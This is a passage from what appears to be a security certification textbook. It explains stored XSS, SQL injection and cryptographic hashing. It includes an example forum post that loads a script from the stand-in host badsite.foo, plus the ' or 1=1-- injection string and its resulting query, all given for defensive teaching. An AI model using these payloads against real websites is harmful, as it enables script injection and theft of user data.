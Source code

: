 This type of XSS attack is nonpersistent because at no point is data on the web server changed. A stored/persistent XSS attack aims to insert code into a back-end database or content management system used by the trusted site. The threat actor may submit a post to a bulletin board with a malicious script embedded in the message, for instance. When other users view the message, the malicious script is executed. For example, with no input sanitization, a threat actor could type the following into a new post text field:

Check out this amazing` <a href="https://trusted.foo">website</a><script src="https://badsite.foo/hook.js"></script>.
`
Users viewing the post will have the malicious script hook.js execute in their browser.

# SQL Injection Attacks
----

A web application is likely to use Structured Query Language (SQL) to read and write information from a database. SQL statements perform operations such as selecting data (SELECT), inserting data (INSERT), deleting data (DELETE), and updating data (UPDATE). In a **SQL injection** attack, the threat actor modifies one or more of these four basic functions by adding code to some input accepted by the app, causing it to execute the attacker's own set of SQL queries or parameters. If successful, this could allow the attacker to extract or insert information into the database or execute arbitrary code on the remote system using the same privileges as the database application.

For example, consider a web form that is supposed to take a name as input. If the user enters "Bob", the application runs the following query:

SELECT * FROM tbl_user WHERE username = 'Bob'

If a threat actor enters the string ' or 1=1-- and this input is not sanitized, the following malicious query will be executed:

SELECT * FROM tbl_user WHERE username = '' or 1=1--#

The logical statement 1=1 is always true, and the --# string turns the rest of the statement into a comment, making it more likely that the web application will parse this modified version and dump a list of all users.

# Hashing and Encryption Concepts
----

Many logical security controls depend to some extent on the use of **encryption** technologies. A message encrypted by a cipher is only readable if the recipient has the correct key for that cipher. The use of encryption allows sensitive data to travel across a public network, such as the Internet, and remain private.

There are three principal types of cryptographic technology: symmetric encryption, asymmetric encryption, and cryptographic hashing. 

### Cryptographic Hashes

A hash is a short representation of data. A hash function takes any amount of data as input and produces a fixed-length value as output. A cryptographic hash performs this process as a one-way function that makes it impossible to recover the original value from the hash. Cryptographic hashes are used for secure storage of data where the original meaning does not have to be recovered (passwords, for instance).
